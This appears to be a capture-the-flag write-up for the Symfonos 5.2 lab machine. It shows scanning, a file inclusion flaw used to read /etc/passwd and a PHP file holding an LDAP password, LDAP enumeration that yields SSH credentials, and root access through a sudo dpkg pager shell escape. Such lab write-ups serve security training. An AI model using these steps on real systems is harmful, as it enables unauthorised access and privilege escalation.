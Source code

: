 root@kali ~/D/C/SYMFONOS#5.2# nmap -sS -A -T4 -p- 10.0.0.15

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?

After scanning the machine we find 3 services; ssh, http and ldap (A means of serving data on users, network devices and systems over the network. It stores usernames, passwords and other core user information. LDAP is vulnerable to a code injection).

---------------------------------------------------------------------------------------------------------------
HTTP
---------------------------------------------------------------------------------------------------------------
root@kali ~/D/C/SYMFONOS#5.2# dirsearch -u http://10.0.0.21/

[16:36:16] 200 -    2KB - /admin.php                                        
[16:36:26] 302 -    0B  - /home.php  ->  admin.php

After brute forcing the directories 2 results were most intersting, admin.php and home.php, if we go to http://10.0.0.15/admin.php we have a login page. home.php redirects us to admin.php.

Using burp suite we can see the the response of home.php, it holds this line --->

href="home.php?url=http://127.0.0.1/portraits.php"

Seems like we can use Remote File Inclusion. Trying to pass ?url=/etc/passwd we get the output of the passwd file:

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

Now that we know we can read files, let's try to read the admin.php file.

$bind = ldap_bind($ldap_ch, "cn=admin,dc=symfonos,dc=local", "qMDdyZh3cT6eeAWD");

"qMDdyZh3cT6eeAWD" seems like a password.

---------------------------------------------------------------------------------------------------------------
LDAP 
---------------------------------------------------------------------------------------------------------------
We can use NSE to enumerate LDAP and get a username for our password.

nmap 10.0.0.15 -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local", ldap.password="qMDdyZh3cT6eeAWD"'

We found the creds:
zeus:cetkKf4wCuHC9FET

We can now log in to ssh.

---------------------------------------------------------------------------------------------------------------
SSH
---------------------------------------------------------------------------------------------------------------
zeus@symfonos5:~$ sudo -l
(root) NOPASSWD: /usr/bin/dpkg

The user "zeus" can run dpkg (A package manager like "apt") with sudo. I read the manual page of dpkg and saw this option:

"-l|--list [<pattern>...]         List packages concisely."

By running dpkg with -l we can list all the installed will be able to scroll up and down, like using the man command, and just like the man command we can run commands.
This means if we run dpkg -l with sudo we can run commands as root.

zeus@symfonos5:~$  sudo dpkg -l
!/bin/bash
root@symfonos5:/home/zeus# cat /root/proof.txt
 
                    Congrats on rooting symfonos:5!
  
                                   ZEUS
              *      .            dZZZZZ,       .          *
                                 dZZZZ  ZZ,
     *         .         ,AZZZZZZZZZZZ  `ZZ,_          *
                    ,ZZZZZZV'      ZZZZ   `Z,`\
                  ,ZZZ    ZZ   .    ZZZZ   `V
        *      ZZZZV'     ZZ         ZZZZ    \_              .
.              V   l   .   ZZ        ZZZZZZ          .
               l    \       ZZ,     ZZZ  ZZZZZZ,
   .          /            ZZ l    ZZZ    ZZZ `Z,
                          ZZ  l   ZZZ     Z Z, `Z,            *
                .        ZZ      ZZZ      Z  Z, `l
                         Z        ZZ      V  `Z   \
                         V        ZZC     l   V
           Z             l        V ZR        l      .
            \             \       l  ZA
                            \         C          C
                                  \   K   /    /             K
                          A    \   \  |  /  /              /
                           \        \\|/ /  /
   __________________________________\|/_________________________
            Contact me via Twitter @zayotic to give feedback!

